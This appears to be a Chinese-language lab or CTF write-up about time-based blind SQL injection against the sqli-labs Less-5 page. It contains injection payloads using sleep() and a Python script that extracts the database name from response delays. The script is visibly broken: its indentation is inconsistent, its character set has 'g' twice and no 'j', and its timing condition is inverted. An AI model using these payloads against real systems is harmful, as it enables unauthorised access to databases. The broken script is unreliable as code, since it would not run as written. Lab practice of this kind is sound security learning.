 这里好像可以使用布尔型和延时型注入

```
?id=1' and if(left(database(),1)='s',sleep(5),1)--+
```

不太会写脚本

只能一个个手注

```
?id=1' and if(length(database())=8,sleep(5),1)--+
```

测出长度为8

```
?id=1' and if(left(database(),1)='s',sleep(5),1)--+
```

再测出数据库名

    import requests
    import time
    database=''
    str=''
    table='abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.'
    for i in range(1,9):
    for char in table:
        charAscii = ord(char)
         
        url = "http://localhost/sql/Less-5/?id=1' and if(ascii(substr(database(),{0},1))>{1},1,sleep(3))--+"
        urlformat = url.format(i,charAscii)
          start_time = time.time()
         
        rsp = requests.get(urlformat)
         
        if  time.time() - start_time > 2.5:
            database+=char
            print ('database: ',database)
            break
        else:
            pass
    print ('database is ' + database)

写的脚本有点渣（能用就好）

测得数据库名为

![image-20210508122255956](C:\Users\luorui\AppData\Roaming\Typora\typora-user-images\image-20210508122255956.png)         

后面的就差不多了

改改脚本就可以了

就不多写了。

**easy_source**
